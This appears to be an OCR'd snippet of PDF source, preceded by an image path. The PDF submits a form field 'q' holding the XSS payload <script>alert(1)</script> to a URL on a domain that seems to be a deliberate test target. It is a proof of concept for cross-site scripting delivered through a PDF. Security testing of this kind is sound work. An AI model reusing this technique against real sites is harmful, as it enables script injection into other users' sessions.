 ```
endobj
5 0 obj
<< /Length 56 >>
stream
BT /F1 12 Tf 100 700 Td 15 TL (JavaScript example) Tj ET
endstream
endobj
6 0 obj
<<
/Type /Font
/Subtype /Type1
/Name /F1
/BaseFont /Helvetica
/Encoding /MacRomanEncoding
>>
endobj

33 0 obj
<<
/S /SubmitForm
/F
        <<
        % URL TO SUBMIT TO:
        /F (https://vulnerabledoma.in/bypass/text)
        /FS /URL
        >>
% SPECIFIES THE FORMAT AND OTHER FORM RELATED CONFIGURATION
/Flags 6
>>
endobj

22 0 obj
<<
    /Fields [23 0 R]
>>
endobj
23 0 obj
<<
    /DA (/Helv 12 Tf 0 g)
    /F 4
    /FT /Tx
    /Rect [ 9.526760 680.078003 297.527008 702.078003 ]
    /Subtype /Widget
    /Type /Annot
    % PARAMETER NAME
    /T (q)
    % PARAMETER PAYLOAD
    /V (<script>alert\(1\)</script>)
    /P 4 0 R
>>
endobj
trailer
<<
/Root 1 0 R
>>
```
